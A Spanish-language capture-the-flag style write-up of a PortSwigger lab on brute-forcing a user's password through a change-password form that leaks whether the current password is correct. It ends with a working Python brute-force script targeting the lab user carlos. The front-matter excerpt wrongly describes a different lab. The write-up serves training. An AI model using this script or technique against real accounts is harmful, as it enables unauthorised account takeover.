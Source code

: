 ```yaml
---
title: "12 Password brute-force via password change"
collection: publications
category: portswigger
permalink: publications/Authentication/12_Password brute-force via password change
excerpt: 'Este laboratorio es vulnerable al envenenamiento por restablecimiento de contraseña. El usuario carlos hará clic por descuido en cualquier enlace de los correos electrónicos que reciba. Para resolver el laboratorio, iniciamos sesión en la cuenta de Carlos.'
date: 2024-12-06
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Password brute-force via password change'
---
```


![logo]({{site.url}}/images/Authentication/authentication-lab-12/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Authentication/authentication-lab-12/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, utilizamos la lista de contraseñas candidatas para realizar un ataque de fuerza bruta a la cuenta de Carlos y acceder a su página  `My account" page.`

## Analisis

Iniciaremos sesión con credenciales validas para ver el funcionamiento del login.

![login]({{site.url}}/images/Authentication/authentication-lab-12/login.png)

Como es muy comun en algunas paginas web, al iniciar sesión por primera vez, nos solicita que cambiemos el password.

![login2]({{site.url}}/images/Authentication/authentication-lab-12/login2.png)

Al hacer muchos intentos vemos que nos bloquea el usuario

![bloque]({{site.url}}/images/Authentication/authentication-lab-12/bloqueo.png)

Volvemos a ingresar con credenciales validas e intentamos esta vez, colocando el password correcto en `Current password` y en las otras casillas passwords, diferentes para que arroje este error. De esta forma no, nos bloquea el usuario y podemos intentar con diferentes passwords.

![Match]({{site.url}}/images/Authentication/authentication-lab-12/match.png)

## Ataque

Realizamos el ataque con el intruder.

![Intruder]({{site.url}}/images/Authentication/authentication-lab-12/intruder.png)

Filtramos por `Length` y vemos un valor diferente

![Respuesta]({{site.url}}/images/Authentication/authentication-lab-12/respuesta.png)

## Login

![Login 3]({{site.url}}/images/Authentication/authentication-lab-12/login3.png)

## Aprobado

![Aprobado]({{site.url}}/images/Authentication/authentication-lab-12/aprobado.png)

# Codigo Python

```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def access_carlos_account(s, url):

    print("(+) Logging into Wiener's account...")
    login_url = url + "/login"
    login_data = {"username": "wiener", "password": "peter"}
    r = s.post(login_url, data=login_data, verify=False, proxies=proxies)

    print("(+) Brute-forcing Carlos's password...")
    change_password_url = url + "/my-account/change-password"
    
    with open('passwords.txt', 'r') as f:
        lines = f.readlines()

    for pwd in lines:
        pwd = pwd.strip('\n')
        change_password_data = {"username":"carlos","current-password": pwd, "new-password-1": "password1", "new-password-2": "password2"}
        r = s.post(change_password_url, data=change_password_data, verify=False, proxies=proxies)
        if "New passwords do not match" in r.text:
            carlos_pwd = pwd
            print("(+) Found Carlos's password: " + carlos_pwd)
            break
    
    if carlos_pwd:
        # login
        login_data = {"username": "carlos", "password": carlos_pwd}
        r = requests.post(login_url, data=login_data, verify=False, proxies=proxies)
        if 'Log out' in r.text:
            print("(+) Successfully logged into Carlos's account.")
        else:
            print("(-) Could not log into Carlos's account.")
            sys.exit(-1)
    else:
        print("(-) Could not find Carlos's password.")
        sys.exit(-1)

def main():
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    s = requests.Session()
    url = sys.argv[1]
    access_carlos_account(s, url)

if __name__ == "__main__":
    main()
```